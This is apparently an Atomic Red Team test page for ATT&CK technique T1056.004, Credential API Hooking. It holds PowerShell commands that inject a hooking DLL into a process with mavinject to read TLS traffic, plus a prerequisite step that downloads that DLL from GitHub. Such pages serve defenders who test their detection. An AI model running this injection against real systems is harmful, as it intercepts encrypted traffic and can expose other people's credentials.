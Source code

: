 # T1056.004 - Input Capture: Credential API Hooking

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1056/004)

<blockquote>Adversaries may hook into Windows application programming interface (API) functions to collect user credentials. Malicious hooking mechanisms may capture API calls that include parameters that reveal user authentication credentials.(Citation: Microsoft TrojanSpy:Win32/Ursnif.gen!I Sept 2017) Unlike [Keylogging](https://attack.mitre.org/techniques/T1056/001),  this technique focuses specifically on API functions that include parameters that reveal user credentials. Hooking involves redirecting calls to these functions and can be implemented via:

- **Hooks procedures**, which intercept and execute designated code in response to events such as messages, keystrokes, and mouse inputs.(Citation: Microsoft Hook Overview)(Citation: Elastic Process Injection July 2017)
- **Import address table (IAT) hooking**, which use modifications to a process’s IAT, where pointers to imported API functions are stored.(Citation: Elastic Process Injection July 2017)(Citation: Adlice Software IAT Hooks Oct 2014)(Citation: MWRInfoSecurity Dynamic Hooking 2015)
- **Inline hooking**, which overwrites the first bytes in an API function to redirect code flow.(Citation: Elastic Process Injection July 2017)(Citation: HighTech Bridge Inline Hooking Sept 2011)(Citation: MWRInfoSecurity Dynamic Hooking 2015)
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Hook PowerShell TLS Encrypt/Decrypt Messages](#atomic-test-1---hook-powershell-tls-encryptdecrypt-messages)

<br/>

## Atomic Test #1 - Hook PowerShell TLS Encrypt/Decrypt Messages

Hooks functions in PowerShell to read TLS Communications

**Supported Platforms:** Windows

**auto_generated_guid:** de1934ea-1fbf-425b-8795-65fb27dd7e33

#### Inputs:

| Name        | Description                    | Type | Default Value                                                  |
| ----------- | ------------------------------ | ---- | -------------------------------------------------------------- |
| file_name   | Dll To Inject                  | path | PathToAtomicsFolder&#92;T1056.004&#92;bin&#92;T1056.004x64.dll |
| server_name | TLS Server To Test Get Request | url  | https://www.example.com                                        |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
mavinject $pid /INJECTRUNNING "#{file_name}"
Invoke-WebRequest #{server_name} -UseBasicParsing
```

#### Dependencies: Run with `powershell`!

##### Description: T1056.004x64.dll must exist on disk at specified location (#{file_name})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1056.004/bin/T1056.004x64.dll" -OutFile "#{file_name}" -UseBasicParsing
```

<br/>
